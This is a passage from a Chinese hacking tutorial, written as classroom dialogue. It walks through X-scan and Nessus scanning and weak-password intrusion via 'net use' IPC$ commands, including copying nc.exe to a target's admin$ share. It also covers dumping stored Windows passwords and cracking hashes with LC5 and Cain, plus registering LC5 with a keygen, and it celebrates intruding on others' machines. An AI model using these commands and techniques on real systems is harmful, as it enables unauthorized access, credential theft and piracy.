系统已经不再适用了。另外，因为流光已经不再更新其漏洞信息库，所以最近一两年新公布的一些安全漏洞，流光已经检测不出来了。这就使得流光慢慢地成为了一个经典的回忆。不过，虽然如此，就像我在前边提到的，流光对于远程主机操作系统类型的判断以及对于远程主机的用户名和密码猜解功能，直到今日，仍然是非常实用的。

## 3.2.4 综合扫描利器 X-scan 3.3

X-scan 是国内大名鼎鼎的安全组织——安全焦点（xfocus）制作的一款非常经典的安全检测（扫描）工具，在国内的黑客爱好者中，其知名度丝毫不亚于流光，其最新版本为 3.3。X-scan 3.3 的漏洞库非常丰富，可以检测到的安全漏洞非常多。

我们直接双击运行 xscan_gui.exe，X-scan 3.3 的主界面就会出现了，如图 3.44。在最上方一共有八个图标，从左至右分别为“扫描参数”、“开始扫描”、“暂停扫描”、“终止扫描”、“检测报告”、“使用说明”、“在线升级”和“退出”。


图 3.44

我们主要来看一下“扫描参数”，这儿是 X-scan 的全部扫描设置。在“指定 IP 范围”栏我们输入想要扫描的 IP 范围，比如 192.168.0.1—192.168.0.255，如图 3.45。

点击左边“全局设置”前的“+”号，会显示出“扫描模块”、“并发扫描”、“扫描报告”和“其他设置”四个小项。点击“扫描模块”就会显示出 X-scan 检测的项目了，包括“开放服务”、“NT-Server 弱口令”、“NetBios 信息”、“Snmp 信息”、“TELNET 弱口令”、“SSH 弱口令”、“FTP 弱口令”、“SQL-Server 弱口令”、“漏洞检测脚本”（也就是各种安全漏洞的检测）等等，我们可以根据自己的需要选择相应的扫描项目，也可以按下边的“全选”按钮来全部选中，如图 3.46。


图 3.45

图 3.46

##### 小知识：什么是弱口令？

弱口令就是指口令（密码）强度不够，容易被猜解的，类似 123、abc 这样的口令（密码）。当然，除了这些外，还有一些口令（密码）为空或是口令（密码）与用户名相同，这些都是非常危险的，这样的口令（密码）都是非常容易被破解的。

至于“并发扫描”和“扫描报告”这两项，大家使用默认的设置就可以了。再来看一下“其他设置”，默认选择的是“跳过没有响应的主机”。使用这个选项的话，如果我们发出的扫描数据包被对方主机上安装的网络防火墙拦截的话，X-scan 就会认为对方主机不在线而直接跳过该主机。因此，使用这个选项虽然可以提高扫描的速度，却也会降低扫描的准确率。而如果我们选择“无条件扫描”的话，则不管我们发出的扫描数据有没有响应，X-scan 都会将我们选择的扫描项目全部检测一遍。因此，使用这个选项，扫描的准确率最高，但扫描的时间却也最长，如图 3.47。

“那我们如何选择，才能在时间和效率上达到最佳呢？”聪明好学的阿黑马上提出了这个很有深度的问题。

“这个不难解决，我们在扫描很多主机的时候，可以选择使用默认的‘跳过没有响应的主机’选项，而如果我们只针对某一个主机进行扫描，以希望尽可能多地获取对方的信息，就可以选择‘无条件扫描’方式。”sagi 老师回答道。

“I see, I see.”台下的菜菜们恍然大悟！

我们展开“插件设置”，在这下面一共有“端口相关设置”、“SNMP 相关设置”、“NETBIOS 相关设置”、“漏洞检测脚本设置”、“CGI 相关设置”和“字典文件设置”六大项。在“端口相关设置”中，主要是设置要扫描的端口信息，X-scan 默认扫描的端口是很丰富的，几乎常有的端口都在默认的扫描列表中了，完全可以满足我们的使用。当然大家也可以根据自己的需要进行设置，比如只扫描哪几个端口，或是只扫描哪一小段端口等，如图 3.48。


图 3.47　　　　　　　　　　　　图 3.48

而“SNMP 相关设置”选项，主要是用来获取界面信息、IP 信息、TCP 信息、UDP 信息和 WINS 用户列表，如图 3.49。

在“NETBIOS 相关设置”选项，主要是检测“注册表敏感键值”、“服务器时间”、“共享资源列表”、“用户列表”、“本地组列表”等，也就是说利用 NETBIOS，我们完全可以获取对方系统中的共享资源和用户帐号，如图 3.50！

“漏洞检测脚本设置”默认是全部选中的，我们也可以取消掉“全选”前的勾，点击“选择脚本”，然后就可以从脚本中选择要检测的安全漏洞了，如图 3.51。举个例子来讲，假如我们知道要扫描的是一台 Windows 主机，那么就可以从漏洞脚本中取消掉关于 UNIX/Linux …## 第三章 入侵从这儿开始——远程主机的信息刺探

漏洞的脚本，这样可以提高扫描的速度。当然这就要求我们对于 Windows 及 UNIX/Linux 下的漏洞要有一定的了解了，对于菜鸟们来说，使用默认的“全选”方式就可以了。


图 3.49

图 3.50


图 3.51

至于“CGI 相关设置”和“字典文件设置”这两项，我们使用默认的设置就可以了，如图 3.52、图 3.53。


图 3.52

图 3.53

全部设置完成后，点击“确定”就会回到 X-scan 的主界面，点击上方的“开始扫描”按钮，X-scan 就会自动加载漏洞检测脚本，然后进行检测了。整个扫描界面一共分为三个区域，最左方是扫描到的主机、服务列表及漏洞信息，我们可以点击前边的“+”展开，有红色感叹号提示的就表示检测到了非常严重的安全漏洞，而绿色的感叹号则表示有一定的安全隐患，而蓝色的“i”表示检测到的服务信息。右上方区域是当前扫描的状态，而右下方的区域则是简单的扫描报告，提示我们正在检测的项目及完成的项目，如图 3.54。


图 3.54

当所有的项目全部扫描完成后，就会自动以网页的形式弹出详细的漏洞分析报告，以供我们更详细地了解扫描到的漏洞信息甚至相应的防范方法，如图 3.55。


图 3.55

除了强大的扫描功能外，X-scan 还集成了几个最最常用的小功能，我们点击 X-scan 最上方的“工具”选项就会看到了，主要有“物理地址查询”、“ARP query”、“Whois”、“Trace route”和“Ping”五个。在“物理地址查询”中，我们在“IP 地址/主机名”栏中输入要查询的 IP 地址，比如 61.152.251.212，然后点击后边的“查询物理地址”按钮，查询到的信息就会显示在下方了，如图 3.56。再来看一下“Trace route”，在“Hostname”栏中输入对方域名，比如 www.sagi.net.cn，然后点击后边的“Trace”按钮，从本地到该主机所有经过的路由信息就会清楚地显示在下方了，如图 3.57。至于其他几个小功能，在使用上都类似，大家看看就应该会使用了。


图 3.56

图 3.57

最后别忘记了，要经常升级 X-scan，这样我们的漏洞信息库才能够最新，扫描到的漏洞才会更多。可以直接点击上方的“在线升级”按钮，或是直接运行 X-scan 目录下的 Update.exe 程序，X-scan 就会自动连接安全焦点的服务器进行检测是否有新的升级内容并进行更新了，如图 3.58。


图 3.58

## 3.2.5 国外优秀的扫描工具 nessus

在介绍完了国内最著名的综合扫描工具流光和 X-scan 后，我们再来介绍一款国外的安全检测工具 nessus。nessus 可是深受国外黑客喜爱的一款经典安全检测（漏洞扫描）工具哟！nessus 最早是专门针对 UNIX/Linux 系统推出的一款安全检测工具，正是因为其优秀的表现，所以制作者后来也推出了 Windows 版本。我们可以在 nessus 的官方站点（www.nessus.org/download/index.php）下载到针对不同系统（有 Linux、MAC OS、FreeBSD、Solaris、Windows）的安装文件，如图 3.59。目前 nessus 最新的正式版本为 3.0.5，而最新的测试版本为 3.1.3。


图 3.59

### 3.2.5.1 nessus 在 Windows 下的安装及使用

我们先来看一下 Windows 版本的安装及使用。直接双击运行 Nessus-3[1].0.5.exe，nessus 会自动为安装进行相应的配置，然后安装界面就会出现了，如图 3.60。

点击“Next”，会出现安装协议信息，再直接点击“Next”后，就会出现安装目录信息了，如图 3.61。对于默认的安装目录，我们最好不要更改，否则有可能会出现安装不成功的情况。再点击“Next”，就会提示我们点击“Install”来进行安装。按照提示，我们点击下方的“Install”按钮，nessus 就会自动进行安装了。


图 3.60

图 3.61

nessus 会自动安装插件，安装过程很长，希望大家耐心地等待一会儿，如图 3.62。安装完毕后，就会出现安装完成的提示界面了，如图 3.63，点击“Finish”按钮，整个安装过程就算是全部结束了。


图 3.62

图 3.63

直接点击桌面上名为“Tenable Nessus”的图标，nessus 的界面就出现了，如图 3.64。


图 3.64

我们点击“Start Scan Task”，也就是开始一个扫描任务，然后输入我们想要扫描的 IP 地址，比如 192.168.0.22，如图 3.65。


图 3.65

点击“Next”后，就会提示让我们选择要使用的插件了。nessus 默认选择的是第一项“Enable all but dangerous plugins with default settings (Recommended)”，也就是使用所有有效的插件，但危险的插件是缺省设置的。通常情况下，我们使用默认设置就可以了。而第一项为“Enable all plugins with default settings（Even dangerous plugins are enabled）”，也就是使用所有有效的插件，每一个危险的插件都有效。如果我们要对某台主机进行最详细的扫描，以希望尽可能多地获取漏洞信息的话，就可以选择第二项，不过扫描的时候会比较漫长，如图 3.66。


图 3.66

点击“Next”后，会要求我们选择一个 nessus 服务器，默认选择的是“Scan from the localhost”，也就是使用本机进行扫描，如图 3.67。直接点击“Scan now”按钮后，就开始扫描了。


图 3.67

nessus 会清楚地显示出正在扫描的主机 IP 地址、扫描的进度、开启的端口数量、扫描到 Notes（需要注意）的数量、扫描到 Warnings（警告）的数量以及扫描到 Holes（漏洞）的数量，如图 3.68。

扫描完成后，nessus 会自动以网页形式弹出扫描报告以供我们分析使用，如图 3.69。


图 3.68


图 3.69

### 3.2.5.2 nessus 在 UNIX/Linux 下的安装及使用

nessus 在 Windows 系统下的安装和使用就是如此简单。既然 nessus 最早是针对 UNIX/Linux 系统而设计的，那么我们接下来再介绍一下 nessus 在 UNIX/Linux 系统下如何安装及使用。

nessus 在 UNIX/Linux 下的安装主要采用两种方式，一种是 rpm 包安装方式，一种是 sh 安装脚本方式。

> “sagi 老师，什么是 rpm？什么又是 sh 呢？”讲台下的阿虫和阿莱问道。

> “rpm，其完整的名称应该是 Red Hat Package Manager，也就是红帽子包管理程序。这是红帽子公司专门为自己的 RedHat Linux 系统而开发的一个功能强大的包管理程序，它可以创建、安装、查询、更改、升级和卸载软件包。而 sh，是 UNIX/Linux 下的命令脚本，类似于 Windows 系统下的 bat 批处理文件。”

比如我们下载了 Nessus-3[1].0.5-fc4.i386.rpm，这是针对 RedHat FC4（RedHat 自 9.0 版本后，就将自己的系统分为了面向企业的服务器版，以及面向个人用户的 Fedora Core 版本，简称 FC）的安装文件，我们可以在 shell 下使用 `rpm -ivv Nessus-3[1].0.5-fc4.i386.rpm` 命令来进行 nessus 3.0.5 的安装。另外，也可以直接在 X-window 下双击这个 rpm 包来进行安装。

那么，sh 脚本又该如何安装呢？我们从 nessus 的官方网站下载安装脚本 nessus-installer-2.2.9.sh，然后在 shell 下使用 `sh nessus-installer-2.2.9.sh` 命令来进行安装，如图 3.70。命令执行后就会出现 nessus 的安装提示了，按照提示直接按“ENTER”键后，会询问我们将 nessus 安装到哪个目录下，默认是 /usr/local 目录。如果我们想安装到其他的目录下的话，可以直接输入，比如我选择安装在 /sagi/nessus2.2.9 目录下，如图 3.71。


图 3.70


图 3.71

回车确认后，nessus 就会自动进行安装了，如图 3.72。安装过程非常缓慢，甚至于你有时会怀疑是不是系统死机了，还请大家耐心等待。安装完成后，会出现提示我们 Registration（注册）的询问，如图 3.73，直接按 ENTER 回车键，就会出现 Finished（安装完成）的提示了，如图 3.74，按 ENTER 后，整个安装过程就结束了。


图 3.72


图 3.73


图 3.74

> “sagi 老师，不对呀？既然刚才已经提示我们安装成功了，可我直接双击运行 nessus，怎么没有反应呀？到底是什么原因呀？”心急的阿黑已经叫了起来。

“大家先别急着运行程序，因为在运行 nessus 前我们还有三个准备活动要做，等到准备活动做好了，nessus 就可以运行了。”

“噢，是这样呀，那我们还要做什么呢？”阿黑他们异口同声地问道。

- 1、创建一个服务器证书号

我们在 shell 下使用 `cd /sagi/nessus2.2.9/sbin` 命令来到 nessus 的 sbin 目录下，然后使用 `./nessus-mkcert` 命令来创建一个证书号，如图 3.75。按照提示，输入相应的信息，如图 3.76，回车后证书就会自动创建完成了，我们回车后就可以了。


图 3.75


图 3.76

- 2、添加 nessus 的使用用户

接下来使用 `./nessus-adduser` 命令再来为 nessus 添加一个用户，如图 3.77。按照提示，输入用户名和密码，接着会要求我们选择一个 User rules（用户规则），如图 3.78，这个不用管，直接按 Ctrl+D，接着就会将我们刚才设置的用户名、密码等信息显示出来，并要求我们确认，输入“y”确认后，用户就添加成功了。


图 3.77


图 3.78

- 3、在后台启动 nessus 服务

最后，我们使用 `./nessusd -D` 命令在后台启动 nessus 服务就可以了，如图 3.79。


图 3.79

“哇，在 UNIX/Linux 下使用 nessus 好麻烦呀！”众菜菜们又开始抱怨了。

“其实创建服务器证书号和添加 nessus 的使用用户，我们只要在初次安装 nessus 的时候进行操作，以后使用的时候，只需要执行第三步，也就是启动 nessus 服务，然后就可以直接运行 nessus 了。”sagi 老师回答道。

现在，我们双击 /sagi/nessus2.2.9/bin 目录下的 nessus，nessus 的登录界面就会出现了，如图 3.80。输入我们刚才添加的用户和密码，然后点击“Log in”，就会切换到 Plugins（插件）界面。主要的扫描项目就在这儿选择，我们可以根据自己的需要进行选择，也可以直接点击下方的“Enable all”全部选中，如图 3.81。


图 3.80


图 3.81

再点击切换到“Target”界面，在“Target”栏中输入我们要扫描的 IP 地址，比如 192.168.0.99，如图 3.82。至于其他的选项，我们基本上使用默认设置就可以了，全部设置完成后，点击下方的“Start the scan”按钮，nessus 就会自动进行扫描了，如图 3.83。


图 3.82　　图 3.83

全部扫描完成后，扫描结果就会显示出来了，我们点击最左上方的 Subnet（子网），然后点击下方 Host 窗口中扫描的主机 192.168.0.99，在中间上方的 Port（端口）窗口中，所有扫描到的端口信息就会显示出来，前边标示有黄色减号的就是说明可能存在严重安全漏洞的信息，点击后，就会显示出详细的漏洞说明了，如图 3.84。


图 3.84

> “好了，一些最经典的扫描工具我们就介绍完了，大家都累坏了吧，先休息一下！”

### 3.3 Windows 弱口令的简单利用

半小时后，当 sagi 老师倒背着双手，踱着方步走进教室的时候，意外地发现教室里特别安静。只见阿呆、阿瓜、阿菜和阿黑都低着头在自己的电脑上操作着什么，走近一看，才发现他们正在练习使用刚才讲过的那几个扫描工具。sagi 老师刚从阿菜身边走过，就感觉有人在悄悄地拉自己的衣角，扭头一看，原来是阿菜。

阿菜低声地说道：“sagi 老师，我在使用 X-scan 3.3 进行扫描，扫描到阿呆的电脑上存在一个弱口令，这个怎么用呀？”旁边的阿瓜也好奇地凑了过来，如图 3.85。


图 3.85

对于 Windows 系统下的弱口令我们可以这样利用。先在 CMD 命令提示符下使用“net use”命令与对方建立一个 IPC$ 管道连接，具体命令就是 `net use \\192.168.0.123\ipc$ "12345" /user:"test"`。假如对方的密码为空的话，就将 `"12345"` 改为 `""`，如果成功的话，会看到命令成功完成的提示。接下来就可以直接使用 copy 命令来上传或下载对方电脑里的文件了，比如 `copy nc.exe \\192.168.0.123\admin$`，就表示将当前目录下的 nc.exe 复制到 192.168.0.123 这台电脑的 Windows 目录下（在 Windows 2003 系统中，admin$ 默认对应的就是 \windows 目录，而在 Windows 2000 系统中，admin$ 默认对应的则是 \winnt 目录）。如果你们嫌这样操作还麻烦的话，还可以将对方的目录或盘符映射成自己的磁盘，比如使用 `net use z: \\192.168.0.123\admin$` 命令，就表示将对方的 \windows 目录映射成 z: 盘，然后我们就可以像使用自己的电脑那样来对 Z: 盘（也就是对方的 \windows 目录）进行操作了，比如 `copy ievml.pl z:\`，也就是将当前目录下的 ievml.pl 文件复制到对方的 \windows 目录下，如图 3.86。如果要断开与对方的 IPC$ 连接的话，可以使用 `net use * /del` 命令，然后根据提示，输入“y”确认就可以了。


图 3.86

## 第三章 入侵从这儿开始——远程主机的信息刺探

其实呀，弱口令在 Windows 的图形界面下使用起来更简单。我们打开“我的电脑”，然后在“地址”栏中直接输入 `\\192.168.0.123`，回车后，就会出现一个类似登录的小窗口，如图 3.87。我们输入扫描到的用户名和密码，如图 3.88，确定后，对方电脑中的共享资源就列出来了，如图 3.89。然后嘛，就可以任意地下载或上传文件了。


图 3.87


图 3.88


图 3.89

“哈哈哈哈哈，看我怎么整阿呆！”阿菜兴奋地叫了起来，开始在阿呆的电脑里乱翻起来。

“有一点要注意，IPC$ 只能用于 Windows 2000/2003 环境下。Windows XP 系统对于 IPC$ 的连接与 2000/2003 系统不同，其安全性得到了一定的加强，因此即使我们扫描到了 XP 系统的管理员帐号和密码，使用 IPC$ 连接后，也会被视为来宾（guest）权限，而无法进行诸如上传、开启服务、执行命令等操作。总之一句话，倘若大家发现对方使用的是 XP 系统的话，就不必再使用 IPC$ 的方法尝试入侵对方的电脑了。”sagi 老师补充道。

“sagi 老师，怎么我没有扫描到别人的用户名和密码呀？”旁边的阿瓜问道。

“密码破解不仅仅靠的是技术，也是需要有一定的技巧的，今天的课就先讲到这儿，明天我们就仔细地介绍一下如何进行密码破解！”

## 第四章 永不过时的入侵技术——密码破解

“当，当，当……”挂在课堂墙上的挂钟整整齐齐地敲了九下，原来已经九点了，到了上课的时间了，可平时总是提前来到教室的 sagi 老师却还没看到人影。不过，教室里的小菜们可不关心这个，反正有电脑玩，正好昨天刚教了几款扫描工具以及弱口令的使用，于是一个个都闷头在那儿练习着。可遗憾的是弱口令很难找到几个，要么找到的就都是因为对方使用的是 XP 系统而不管用，虽然有时候也会扫描到其它的一些安全漏洞，但因为 sagi 老师还没有教，所以也不知道该如何利用。正当小菜们都闷的时候，满头大汗的 sagi 老师终于急匆匆地走进了教室。

“不好意思，各位菜同学，刚才光顾着在网上看新闻了，忘记了看时间，所以迟到了。”  
“都迟到快一个小时了，也太离谱了吧！”阿菜抱怨道。  
“罚你给我们买冰淇淋吃，要不然我就偷偷地报告给校长，扣你工钱！”还是阿瓜比较狠！“我要吃蒙牛的香雪杯，牛奶味的！”旁边的阿呆马上配合着喊道。

台上的 sagi 老师急忙擦了擦额头上的汗，只不知道这汗是因为天气太热了，还是别的原因才流下的。“阿呆同学，你都已经有 180 多斤了，再这么吃下去，可就别指望着能够追上 MM 了！”

“sagi 老师，你看的是什么新闻呀，这么吸引人？”阿黑问道。  
“是关于黑客加里·米克金农的故事。”这一说，众小菜们顿时都来了精神。“sagi 老师，加里·米克金农是谁呀？”

“加里·米克金农是英国的一个电脑工程师，这位老兄对于外星人和 UFO 不明飞行物异常地痴迷。他坚信宇宙中存在外星人，并且曾经驾驶着 UFO 造访过地球，同时也坚信美国军方掌握着确凿的证据，甚至拥有外星人的遗骸以及 UFO 的残骸。因此，这位老兄在短短的 13 个月的时间里使用自己的电脑成功地入侵了美国军方的 97 套计算机系统，窃取了大量的军方绝密文件，可以说美国海、陆、空三军的都有。因此他被称为了‘有史以来全球最疯狂的军方黑客’！后来，英国方面经过整整三年的缜密调查，终于在 2005 年 8 月英国法庭对加里·米克金农进行了审理。唉，这位老兄也算是够幸运的了，因为要是他被引渡到美国受审的话，将会面临最高 70 年的监禁以及 100 万英镑的罚款。”

“我靠，不会吧，这英国老兄怎么这么牛 B。I 服了 Y！”阿菜和阿瓜叫了起来。  
“偶像，我的新偶像！”阿呆也兴奋地喊了起来。  
“加里·米克金农这么厉害呀！那 sagi 老师，他都是使用什么方法入侵美国军方的电脑系统的呢？”阿黑问道。

“呵呵，看似很神秘，实际上很简单。加里·米克金农入侵的方法并不先进，不外乎是利用一些从网上下载的黑客工具对美国军方数以万计的电脑所开放的端口进行扫描以发现可能存在的安全漏洞，然后利用网上公布的漏洞利用程序尝试进行攻击。另外就是使用最简单的猜密码的方法来获取进入美军电脑系统的口令。”

“哇噻，不会他也使用 Superscan、nmap、流光、X-Scan 以及 nessus 这些工具吧。”  
“不好说哟，像 Superscan、nmap、nessus 都是国外鼎鼎大名的黑客工具，说不准他也使用过这些工具哟。”顿了一下，讲台上的 sagi 老师又说道：“从上边的事例中，我们可以看出破解口令（密码）的作用是非常巨大的。虽然这门技术早在上世纪六、七十年代就已经被应用了，但是直到今日，破解口令（密码）在黑客的入侵过程中仍然会起到决定性的作用。”

“密码破解按照形式主要分为本地密码破解以及远程密码破解两种。本地密码破解，就是指我们在自己的电脑上利用工具对获取到的加密过的密码进行破解。这些加密过的密码可以是自己电脑中的，也可以是通过一些记录密码的文件来获取的。而远程密码破解则是利用远程主机提供的一些允许远程连接的服务（诸如 Windows 的终端服务、Telnet、SSH 等），使用大量不同的用户帐号和密码尝试进行登录，而最终获取可以登录进入系统的用户帐号和密码。”

### 4.1 本地密码破解

#### 4.1.1 如何获取系统记录下的密码

当我们输入用户帐号和密码登录进系统时，这些用户帐号和密码是被记录在系统中的。因此，只要从系统中找到存放的相应位置然后读取出来，就会得到用户帐号和密码了。

##### 4.1.1.1 使用 mt 获取 Win2000 的密码

mt 是一个功能非常强大的小工具，我们在 CMD 命令提示符下直接输入 mt 就会得到其详细的使用方法了。对于获取 Windows 2000 系统缓存中的密码，我们可以使用 `mt -f findpass`，如图 4.1。记录在系统中的用户帐号 administrator 以及密码 135790 就被显示出来了。


图 4.1

##### 4.1.1.2 使用 findpass2003 获取 Win2003 的密码

对于 Windows 2003 系统，我们可以使用 findpass2003 来获取记录在系统中的密码。在 CMD 命令提示符下直接输入 `findpass2003`，记录的密码就会被显示出来了，如图 4.2。


图 4.2

##### 4.1.1.3 使用 AWPR 获取 WinXP 的密码

许多个人用户为了系统登录的方便，都会将电脑设置成自动登录方式。对于这种情况，我们可以使用 AWPR 获取用户名和密码。AWPR 是 Advanced Windows Password Recovery（高级 Windows 密码恢复）的缩写，从名字上就可以看出，这是一个非常专业的 Windows 密码恢复工具，但对于黑客来讲，这也是一个不错的用于获取 WinXP 系统密码的好工具。

我们先来安装 AWPR，双击运行安装程序后，安装界面就会出来了，如图 4.3。直接点击“Next”按钮后就会出现安装许可的界面，点击“I Agree”，也就是“我同意”后，就会出现选择安装组件的界面了，如图 4.4。


图 4.3  
图 4.4

点击“Next”，会出现选择安装目录的界面，默认是安装在 `C:\Program Files\elcomSoft\AWPR\` 目录下，当然我们也可以根据自己的需要进行选择，如图 4.5。继续点击“Next”，就会出现开始菜单的选择项，也就是会显示在“开始”——“程序”中的名字，我们使用默认的就可以了，如图 4.6。点击“Next”，会要求我们输入软件的注册码，将注册码填写好后，直接点击“Install”，就会自动进行安装了，如图 4.7。最后，会提示我们安装完成，点击“Finish”就会自动运行 AWPR 了，如图 4.8。

AWPR 运行后的界面如图 4.9 所示，点击左上方的“Logon password”，记录在系统中的计算机名、自动登录的用户帐号和密码就会显示出来了，如图 4.10。

我们选择左边“Advanced features”项，然后选择其中的“Windows CD key”图标，系统的 CD key 就会清楚地显示出来了，如图 4.11。


图 4.5  
图 4.6


图 4.7


图 4.8


图 4.9


图 4.10


图 4.11

大家还记不记得上节课的最后，我曾经教过大家如何在 Windows 的图形界面下使用弱口令，大家还记得那个登录的小窗口吗？忘记的同学可以翻开前边的课堂笔记看一下图 3.87。如果我们输入了用户名和密码，并且选中了下方的“记住我的密码”的话，那么，当我们下次再在地址栏中输入 `\\192.168.0.123` 访问这台电脑的时候，就不会再出现这个登录窗口，而是会直接登录进去。这是因为，我们的系统已经记下了对方的用户帐号和密码。我们回到 AWPR 中，选择“Net passwords”，我们会发现，如果系统也曾经那样访问过网络中别的电脑的话，那么记录下来的对方的 IP 地址、用户名和密码就会显示出来了，如图 4.12。


图 4.12

哈哈，感觉挺神奇的吧！可是，倘若对方的 XP 系统没有设置成自动登录，又或者 Win2000 和 Win2003 处于注销用户（也就是没有用户登录）的状态下，那么使用上述的方法就可能无法获得用户密码。在这种情况下，我们就得使用专业的密码破解工具才行了。

#### 4.1.2 最专业的密码破解工具 LC5

对于系统管理员来说，LOphtCrack 是最经典的密码检测工具，但对于黑客们来说，LOphtCrack 则是最经典的密码破解工具。LOphtCrack，简称为 LC，目前其最新的版本为 5，我将以 LC5.02 汉化版为例详细地介绍一下如何利用它来破解本地的密码。

双击运行 LC5.02 汉化版的安装程序，安装界面就会出现了，如图 4.13。点击“下一步”后，就会出现安装许可协议界面，选择“我同意以上条款”，然后点击“下一步”，就会来到安装文件夹选择界面，默认是安装到系统盘的 `\Program Files\LOphtCrack\` 目录下，如图 4.14。点击“下一步”后，会出现一个确认安装的界面，不用管它，继续点击“下一步”，程序就会自动进行安装了。

程序安装完成后，会自动弹出一个要求我们注册的窗口，另外还会自动弹出 LC5.02 注册机的窗口，在注册机的“Serial Number”栏中我们还会看到有一个序列号，如图 4.15。


图 4.13  
图 4.14


图 4.15


图 4.16

我们点击 LC5.02 的“注册”按钮，就会弹出一个“注册”小窗口，我们会发现其序列号与注册机“Serial Number”栏中的序列号相同。在注册机下方有三个选项，分别为 Basic（基础）、Professional（专业）、Administrator（管理员）。我们随便选择一个，点击后，在注册机的 Unlock Code 栏中就会出现破解出来的注册码了，将这个注册码填到“注册”窗口中的“注册码”一栏中，点击“确定”后，我们的 LC5.02 就已经成了注册版了，如图 4.16。

接着，LC5.02 会自动运行，并且弹出使用向导，如图 4.17。我们可以按照使用向导的提示来一步步地操作。不过，我不喜欢向导那种慢吞吞的操作方式，通常都是直接点击“取消”。在 LC5.02 界面的上方一共有 13 个图标，从左至右依次为“新建 LC5 会话”、“打开 LC5 会话”、“关闭”、“保存”、“输出”、“导入”、“开始 LC5 向导”、“最小化 LC5 到系统托盘”、“开始破解”、“暂停破解”、“停止破解”、“会话选项”和“关于 LC5”。


图 4.17

取消使用向导后，我们点击第一个“新建 LC5 会话”，如图 4.18。然后点击“导入”，在这儿，主要有两种方式，一个是从本地电脑导入，另一种就是从密码文件中导入。而可以导入的密码文件又分为 SAM 文件（这是 Windows 系统中记录系统密码的一个文件）、LC4 文件（这个主要是为了和前一版本的 LC4 文件兼容）、PWDUMP 文件（使用 PWDUMP 获取的密码）以及 UNIX 系统的 shadow 文件（UNIX/Linux 系统的密码是被保存在 shadow 文件中的）。因为我们是要破解本地电脑中的密码，所以选择“本地电脑”就行了，如图 4.19。


图 4.18


图 4.19

确定后，LC5 就会自动将获取到的系统用户名、LM 密码散列、NTLM 密码散列、口令期限等信息显示出来，如图 4.20。


图 4.20

##### 名词解释：什么是密码散列？

密码散列，就是将明文密码按照一定的加密方式进行加密后，变成的一组看似杂乱无章的字符。当我们为系统中的用户帐号设置了相应的密码后，这些密码就会按照相应的散列方式加密后保存在电脑中。当用户重新登录系统时，输入的用户密码就会与这些存储在电脑中的密码进行对比，如果一致的话，就认为密码正确，而允许登录系统；否则就会提示密码错误信息。因此，我们只要知道了这些密码的存储地址，就可以将其提取出来，然后就可以用于密码破解了，这也就是本地密码破解的简单原理。

先别忙着点击“开始破解”，为了让 LC5 能够更快更有效地破解出密码，我们可以点击“会话选项”，对破解的方式进行一些选择。

##### 名词解释：什么是字典破解？

所谓字典破解，就是将一些常用的密码使用相同的加密方法加密后，分别与加密过的密码进行对比。如果一致的话，就表示是真正的密码。这种方式的破解效率几乎取决于所选择使用的密码字典本身。如果字典中没有包含真正的密码的话，就会破解不出来。通常这种方式的破解速度比较快，但效率不是多好。

##### 名词解释：什么是暴力破解？

所谓暴力破解也称为穷举法破解，就是指将字母、数字和特殊符号等所有能够作为密码的组合使用相同的加密方式加密后，与加密过的密码进行对比。只要一致的话，就表示是真正的密码。举个简单的例子，比如一个由 7 位纯阿拉伯数字组成的密码，其最多有 10 的 7 次方个完全不同的密码组合，也就是 1000 万个，它肯定是 0000000 至 9999999 中的某一个。这样，使用暴力破解只需要将 0000000 到 9999999 依次加密后与真正的密码进行比较，也就是比较 1000 万次，就一定会找出真正的那个密码来。毫无疑问，这种破解方式的成功率最高，但同时破解的速度也最慢。


LC5 默认使用的就是字典破解方式，如果我们想选择暴力破解的话，可以先把“字典破解”下的“使用”前的勾号取消掉，然后在“暴力破解”下的“使用”前打上勾。在右边的“字符设置”中默认使用的是“字母+数字”，为了提高破解的速度，我们可以先选择使用数字，再使用字母，最后再使用字母+数字的这种方式，如图 4.21。

图 4.21

**小提示：**

在 LC5 的字符设置中，默认有字母、字母+数字、字母+数字+普通符号、字母+数字+所有符号、自定义等五种方式，但奇怪的是居然没有纯数字形式，我们可以选择“自定义”方式，然后在“自定义字符集”框中输入 0123456789 就可以了。

选择好要使用的字符后，我们就可以回到 LC5 的主界面中点击“开始破解”了，很快地，相应的密码（口令）就被破解出来了，如图 4.22。


图 4.22

#### 4.1.3 菜鸟最强大的武器 Cain

Cain 的全称是 Cain & Abel，这是由 oxid.it 开发的一款功能非常强大的网络工具，它可以进行网络嗅探、网络欺骗、密码破解、显示缓存中记录的密码、分析路由信息等等。

我们以 4.8 汉化版为例来介绍一下如何使用 Cain 破解本地电脑中的密码。这个 4.8 汉化版非常不错，甚至于不用安装，直接双击运行 Cain 目录下的 Cain.exe 就可以了。不过，千万别忘了，在使用 Cain 前必须要安装 WinPcap 才行（关于 WinPcap 的安装我们在本书的第三章中已经详细地讲过了）。Cain 运行后的界面如图 4.23 所示。


图 4.23

我们点击“破解器”选项，然后在左栏的破解项目中选择“LM & NTLM 密文”，接着点击 Cain 上方工具栏中的“添加到列表”，也就是那个大大的蓝色“+”号图标，就会弹出“添加 NT 密文”窗口。这儿主要有三个选项：

- “从本机系统处导入密文”，也就是直接从本地电脑中导入加密后的密码；
- “从文本处导入密文”，就是从记录密码的文件中导入加密后的密码；
- “从 SAM 地址处导入密文”，就是从 Windows 系统的 SAM 文件中导入加密后的密码。

我们既然是破解本地电脑中的密码，自然要选择第一个，也就是“从本机系统处导入密文”，如图 4.24。


图 4.24

点击“下一步”后，我们就会发现系统中的用户帐号、LM 密文、NT 密文等信息就会显示出来了，如图 4.25。

我们在要想破解的帐号上点击鼠标右键，在弹出的菜单中就可以看到不同的破解方式及其它一些选项了。如果我们想破解全部用户的密码，就可以从中选择“选择所有”。至于破解方式，我们通常选择使用“暴力破解”下的“LM 密文”就可以了，如图 4.26。

## 第四章 永不过时的入侵技术——密码破解


图 4.25


图 4.26

选择后，就会弹出“暴力破解”选项窗口，默认使用的是英文字母+阿拉伯数字形式，默认的密码长度最长为7位。按照我刚才讲过的破解技巧，我们可以先选择使用纯数字的形式，然后再选择使用纯字母的形式，最后再选择使用字母+数字，甚至是再加上其他特殊符号的形式。至于密码的最长位数，我们通常选择7位或8位就可以了，再高的话，破解的时间可能就得很长了，如图4.27。


图 4.27

选择好后，直接点击右下角的“开始”按钮，Cain就会自动进行破解了，当前破解的密码、破解剩余的时间等信息也都会显示出来。破解完成后，密文及相应的密码明文就会显示在下方的框中，如图4.28。点击“退出”后，回到Cain的破解主界面，我们就会发现刚才破解出来的密码已经显示在口令栏中了，如图4.29。


#### 4.1.4 如何获取远程电脑的密码散列

